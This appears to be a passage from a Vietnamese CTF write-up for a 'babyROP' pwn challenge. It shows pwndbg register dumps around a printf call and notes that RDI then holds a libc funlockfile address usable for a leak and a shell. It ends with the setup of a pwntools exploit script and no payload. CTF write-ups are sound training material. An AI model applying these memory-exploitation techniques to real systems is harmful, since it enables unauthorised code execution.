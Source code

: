 ```sh
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffdbc0 ◂— 1
 RSP  0x7fffffffdb80 —▸ 0x7ffff7fc1000 ◂— jg 0x7ffff7fc1047
 RIP  0x40126f (main+52) ◂— call printf@plt
───────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────
 ► 0x40126f <main+52>    call   printf@plt                  <printf@plt>
        format: 0x402028 ◂— 0x4200203a61746144 /* 'Data: ' */
        vararg: 1
```

- Sau khi call `printf()`:
```sh
*RAX  6
 RBX  0
 RCX  0x7ffff7e98887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0
*RDI  0x7fffffffb940 —▸ 0x7ffff7de6050 (funlockfile) ◂— endbr64
*RSI  0x7fffffffba60 ◂— 0x203a61746144 /* 'Data: ' */
*R8   6
 R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64
*R10  0x402028 ◂— 0x4200203a61746144 /* 'Data: ' */
 R11  0x246
 R12  0x7fffffffdcd8 —▸ 0x7fffffffdf6b ◂— '/home/alter/CTFs/2025/KSCS_Recruit/PWN/babyROP/babyROP/chall'
 R13  0x40123b (main) ◂— endbr64
 R14  0x403e18 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4011a0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffdbc0 ◂— 1
 RSP  0x7fffffffdb80 —▸ 0x7ffff7fc1000 ◂— jg 0x7ffff7fc1047
*RIP  0x401274 (main+57) ◂— mov rdx, qword ptr [rip + 0x2df5]
pwndbg> vmmap 0x7ffff7de6050
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff7d84000     0x7ffff7dac000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7ffff7dac000     0x7ffff7f41000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6 +0x3a050
    0x7ffff7f41000     0x7ffff7f99000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
```

Ta thấy rằng sau khi nó call xong thì `RDI` sẽ được set là một địa chỉ của `funlock` trong libc (mình sẽ viết một bài về cái này trong tương lai), bằng cách này ta có thể kiểm soát được `RDI` và leak địa chỉ rồi get shell:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*main+145
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)
```